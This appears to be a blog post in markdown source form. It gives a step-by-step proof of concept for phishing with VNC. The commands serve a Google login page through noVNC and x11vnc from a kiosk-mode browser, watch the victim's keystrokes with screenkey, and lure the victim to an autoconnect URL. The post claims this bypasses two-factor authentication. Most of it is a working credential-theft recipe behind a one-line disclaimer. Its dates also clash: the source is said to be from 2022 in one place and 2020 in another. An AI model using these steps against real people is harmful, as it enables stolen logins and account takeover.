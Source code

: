 ```yaml
---
layout: distill
title: Phishing Attacks with VNC
date: 2024-05-04
description: TBA
tags: tag, tag
categories: TBA
pretty_table: true
thumbnail: TBA
toc:
  - name: Introduction
  - name: Important Disclaimer
  - name: Security Context
  - name: PoC
  - name: Conclusions
  - name: Credits
---
```


### Introduction

On February 19, 2022, [Mr. d0x](https://twitter.com/mrd0x) a cybersecurity researcher introduced a method that uses VNC for phishing attacks. I was impressed by the cleverness of this idea.

### Background

VNC, or Virtual Network Computing, is a way to share screens and control another computer remotely. It works by installing a VNC server on the computer you want to control, and a VNC viewer on the device you're using to control it.

Using VNC in a phishing attack is straightforward. We set up a VNC server, share our screen, specifically our browser window, and trick the victim into believing they are controlling their own browser while they are actually connected to our browser, allowing us to intercept any data that passes.

Using a library called [noVNC](https://novnc.com/), we can establish connections to VNC servers through modern web browsers.

This phishing technique has several benefits over traditional phishing methods:

- We can record all keystrokes made by the victim
- We can watch in real-time what the victim is doing on a website
- Regular Two-factor authentication will not protect against this type of attack

### Important Disclaimer

The information provided is for educational purposes only. I do not take responsibility for any actions taken based on the information provided.

### Security Context

Please note that the PoC demonstrated in this guide is not safe for "production" use, as it lacking essential security configurations.

---

### Prerequisites

- Linux

---

### PoC

First, we launch Firefox or any other browser in kiosk mode with the website we want to phish. For this example, we will use Google accounts.

Kiosk mode is a feature that can restrict user activities and interactions outside the intended scope of operation, this is necessary to prevent the victim from controlling other areas of our attacking machine, which may lead to unwanted access or control.

In the terminal, execute:

```bash
firefox --kisok https://accounts.google.com
```

Now, in a new terminal window, we will run a noVNC server:

```bash
git clone https://github.com/novnc/noVNC
cd noVNC
./utils/novnc_proxy --listen 0.0.0.0:8080 --vnc localhost:5900
```

{% include figure.liquid loading="eager" path="assets/img/posts/2/2.png" class="img-fluid rounded z-depth-1" zoomable=true %}

Now, we need to obtain the ID of the running Firefox process:

1. Run `xwininfo | grep id` in the terminal
2. Click on the Firefox window.
3. In the terminal, the window ID will be displayed.

{% include figure.liquid loading="eager" path="assets/img/posts/2/3.png" class="img-fluid rounded z-depth-1" zoomable=true %}

Once we have obtained the window ID of Firefox using `xwininfo`, we can start a local VNC server by running:

```bash
sudo apt update
sudo apt install x11vnc
x11vnc -id <window_id>
```

Once we have started the local VNC server, we can use the screenkey tool to view key presses by the victim in real time. It is important to note that screenkey will display our own key presses as well.

```bash
sudo apt install screenkey -y
screenkey
```

#### Victim

Almost there! The last step is to have the victim open their browser and enter the following URL: `http://<ip>:8080/vnc.html?autoconnect=true`. Once they enter this URL, they will see what looks like the Google accounts login page. Little do they know, it's actually a live streaming video that they can interact with. It's a pretty sneaky and clever trick.

{% include figure.liquid loading="eager" path="assets/img/posts/2/4.png" class="img-fluid rounded z-depth-1" zoomable=true %}

### Credits

[Steal Credentials & Bypass 2FA Using noVNC](https://mrd0x.com/bypass-2fa-using-novnc/) (mr.d0x, 2020)

